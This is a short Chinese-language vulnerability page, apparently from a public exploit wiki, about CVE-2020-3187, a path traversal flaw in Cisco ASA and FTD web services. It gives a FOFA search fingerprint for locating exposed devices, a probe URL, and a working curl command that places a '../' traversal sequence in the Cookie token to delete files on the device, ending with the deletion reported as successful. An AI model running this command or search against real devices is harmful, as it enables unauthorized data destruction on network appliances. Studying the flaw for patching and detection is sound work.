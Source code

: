 # CISCO ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

Cisco ASA设备

![](http://wikioss.peiqi.tech/vuln/cisco-1.png)

Cisco FTD设备

![](http://wikioss.peiqi.tech/vuln/cisco-2.png)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](http://wikioss.peiqi.tech/vuln/cisco-6.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](http://wikioss.peiqi.tech/vuln/cisco-7.png)

使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```

![](http://wikioss.peiqi.tech/vuln/cisco-8.png)

成功删除图标